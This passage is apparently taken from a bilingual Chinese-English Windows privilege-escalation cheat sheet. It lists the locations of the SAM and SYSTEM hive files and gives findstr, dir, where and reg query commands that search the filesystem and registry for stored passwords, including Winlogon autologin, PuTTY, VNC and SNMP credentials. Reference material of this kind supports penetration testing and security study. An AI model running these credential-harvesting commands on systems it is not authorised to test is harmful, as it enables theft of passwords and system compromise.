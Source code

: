 ```
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

```


### EoP - Windows各种提权方式

#### EoP - 密码搜集

```
# ---------------
# SAM and SYSTEM files
# SAM和SYSTEM文件

%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

# ---------------
# Search for file contents
# 搜索文件内容

cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*



# ---------------
# Search for a file with a certain filename
# 搜索具有特定文件名的文件

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini


# ---------------
# Search the registry for key names and passwords
# 在注册表中搜索key名称和密码

REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s


# ---------------
# Read a value of a certain sub key
# 读取某个子键的值

REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```
